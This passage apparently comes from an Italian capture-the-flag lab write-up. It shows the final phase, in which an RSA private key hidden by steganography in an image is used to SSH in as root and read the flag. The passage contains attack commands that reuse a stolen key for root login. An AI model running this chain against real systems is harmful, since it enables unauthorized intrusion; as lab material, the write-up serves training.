
Evidence · Fase 6.1
Steganografia — Estrazione id_rsa da theta-key.jpg
FASE 7 — Privilege Escalation: Root
7.1 Hardening della Chiave e Accesso Root
La chiave RSA estratta permette di bypassare completamente l'autenticazione basata su password.
$ chmod 600 id_rsa
$ ssh -i id_rsa root@192.168.0.10
7.2 Acquisizione Root Flag
root@theta:~# cat /root/flag.txt
FLAG{misfatto_compiuto_999_root}
MISSIONE COMPLETATA. Accesso amministrativo totale ottenuto. Root flag acquisita: FLAG{misfatto_compiuto_999_root}

Evidence · Fase 7
Root Shell — Accesso root e flag finale pt1

Evidence · Fase 7
Root Shell — Accesso root e flag finale pt2